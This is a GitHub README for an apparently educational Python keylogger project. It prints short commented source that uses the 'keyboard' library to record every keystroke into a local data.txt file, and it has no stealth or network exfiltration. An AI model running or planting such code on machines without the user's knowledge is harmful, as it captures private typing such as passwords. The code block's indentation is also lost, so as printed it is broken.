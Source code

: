 <img align="center" src="https://media.licdn.com/dms/image/v2/D4D16AQGUNxQ7NSC05A/profile-displaybackgroundimage-shrink_350_1400/profile-displaybackgroundimage-shrink_350_1400/0/1738695150340?e=1749686400&v=beta&t=hBmszzzG0Zu-m7ZxeCdU5VxgDWqIZuWB0vnrMycuqY4" alt="gabriellugo" />

# KEYLOGGER

<a href="https://github.com/GabrielLugooo/Keylogger" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Keylogger-000000" alt="English Keylogger" /></a>
<a href="https://github.com/GabrielLugooo/Keylogger/blob/main/README%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Keylogger-green" alt="Spanish Keylogger" /></a>

### Objective

This project aims to capture user keystrokes and store them in a text file. It is based on Python’s `keyboard` library to log each pressed key and save it in a `data.txt` file in real-time.

The keylogger is a useful tool for understanding how keyboard event capturing works in Python, enabling its application in areas such as cybersecurity, software testing, and accessibility.

### Skills Learned

- Capturing keyboard events in Python.
- Using the `keyboard` library.
- File handling in Python.
- Writing and reading data in text files.
- Automating processes with system events.

### Tools Used

![Static Badge](https://img.shields.io/badge/Python-000000?logo=python&logoSize=auto)
![Static Badge](https://img.shields.io/badge/keyboard-000000?logo=keyboard&logoSize=auto)

- Python
- `keyboard` library

### Project

#### Preview

<img align="center" src="https://i.imgur.com/uEPMPfS.jpeg" alt="keylogger1" />
<img align="center" src="https://i.imgur.com/7bhqjLd.jpeg" alt="keylogger2" />

#### Code with Comments (English)

```python
# Keylogger

# Install the necessary library with: pip install keyboard
# Import the library to detect keystrokes
import keyboard

# Function to be executed every time a key is pressed
def pressedKeys(key):
# Open (or create) the file 'data.txt' in append mode ('a')
with open('data.txt', 'a') as file:
# If the key pressed is the space bar, add a space to the file
if key.name == 'space':
file.write(' ')
else:
# Add the name of the pressed key to the file
file.write(key.name)

# Assign the pressedKeys function to be executed on every keystroke
keyboard.on_press(pressedKeys)

# Keep the program running waiting for keyboard events
keyboard.wait()
```

### Limitations

Keylogger it's just for educational purpose under the MIT License.

---

<h3 align="left">Connect with me</h3>

<p align="left">
<a href="https://www.youtube.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=55200&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="http://www.tiktok.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=118638&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="https://instagram.com/lugooogabriel" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=32309&format=png" alt="lugooogabriel" height="40" width="40" /></a>
<a href="https://twitter.com/gabriellugo__" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=phOKFKYpe00C&format=png" alt="gabriellugo__" height="40" width="40" /></a>
<a href="https://www.linkedin.com/in/hernando-gabriel-lugo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=8808&format=png" alt="hernando-gabriel-lugo" height="40" width="40" /></a>
<a href="https://github.com/GabrielLugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=80&id=AngkmzgE6d3E&format=png" alt="gabriellugooo" height="34" width="34" /></a>
<a href="mailto:lugohernandogabriel@gmail.com"> <img align="center" src="https://img.icons8.com/?size=50&id=38036&format=png" alt="lugohernandogabriel@gmail.com" height="40" width="40" /></a>
<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://simpleicons.org/icons/linktree.svg" alt="gabriellugooo" height="40" width="40" /></a>
</p>

<p align="left">
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/README.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Version-000000" alt="English Version" /></a>
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/Readme%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Version-Green" alt="Spanish Version" /></a>
</p>

<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Credits-Gabriel%20Lugo-green" alt="Credits" /></a>
<img align="center" src="https://komarev.com/ghpvc/?username=GabrielLugoo&label=Profile%20views&color=green&base=2000" alt="GabrielLugooo" />
<a href="" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/License-MIT-green" alt="MIT License" /></a>
